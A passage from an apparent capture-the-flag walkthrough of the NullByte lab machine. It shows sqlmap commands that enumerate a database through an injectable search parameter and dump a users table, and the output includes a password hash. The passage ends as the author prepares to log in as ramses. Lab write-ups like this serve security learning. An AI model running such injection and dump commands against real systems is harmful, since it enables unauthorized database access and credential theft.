 Now, we now our database name, so we pass to the next step.

We will enumerate table inside seth database.
```
root@kali:~/NullByte# sqlmap -u http://nullbyte.local/kzMb5nVYJw/420search.php?usrtosearch=ramses -D seth --tables  
...  
Database: seth  
[1 table]  
+-------+  
| users |  
+-------+  
...
```
There is a single table. It is users table.
After that, we will the columns in this table.
```
root@kali:~/NullByte# sqlmap -u http://nullbyte.local/kzMb5nVYJw/420search.php?usrtosearch=ramses -D seth -T users --columns  
...  
Database: seth  
Table: users  
[4 columns]  
+----------+-------------+  
| Column | Type |  
+----------+-------------+  
| position | text |  
| user | text |  
| id | smallint(6) |  
| pass | text |  
+----------+-------------+  
...
```
Okay, almost everything is clear for us. There is small touch only.
As a final step we dump the users.
```
root@kali:~/NullByte# sqlmap -u http://nullbyte.local/kzMb5nVYJw/420search.php?usrtosearch=ramses -D seth -T users -C id,users,pass -dump  
...  
Database: seth  
Table: users  
[2 entries]  
+----+-------+---------------------------------------------+  
| id | users | pass |  
+----+-------+---------------------------------------------+  
| 1 | ramses | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE |  
| 2 | isis   | --not allowed-- |  
+----+-------+---------------------------------------------+  
...
```

## Exploit
And it is exciting part of the game.
We will log into *ramses*.
